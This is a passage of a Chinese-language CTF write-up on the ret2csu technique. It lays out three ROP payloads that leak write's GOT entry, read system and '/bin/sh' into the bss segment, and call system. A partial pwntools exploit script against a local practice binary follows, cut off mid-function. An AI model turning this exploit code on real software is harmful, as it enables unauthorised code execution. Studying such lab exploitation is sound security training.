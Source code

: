 第一个 payload

```plain
这里是为了泄露 write 的 got 表地址
r12 -> 1
r13 ->write_got
r14 ->0x8
r15 ->write_got
ret ->gadget2
p64(1)*7 ->主要是上面我说的 padding ->新一轮的 rsp+8,rbx,rbp,r12,r13,r14,r15
```

第二个 payload

```plain
这里是为了调用 read 函数从而将 system,binsh 写入 bss 段
r12 ->0
r13 ->bss 段地址
r14 ->0x20
r15 ->read_got
```

第三个 payload

```plain
这里是传入我们写入 system 和 binsh 的地址
r12 ->binsh 的地址 ->bss 段地址为 0x404060->我们传入的是 system+binsh，所以 binsh 的地址为 0x404068
r13 ->0
r14 ->0
r15 ->system
```

exp:

```plain
from pwn import *
context.log_level='debug'
p=process('./csu')
elf = ELF('./csu')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

def ret_csu(r12, r13, r14, r15, last):
    payload = offset * 'a'  
    #构造栈溢出的 padding
    payload += p64(first_csu) + 'a' * 8    
    #gadgets1 的地址
    payload += p64(0) + p64(1)
    #rbx=0, rbp=1
    payload += p64(r12)
    #call 调用的地址
```
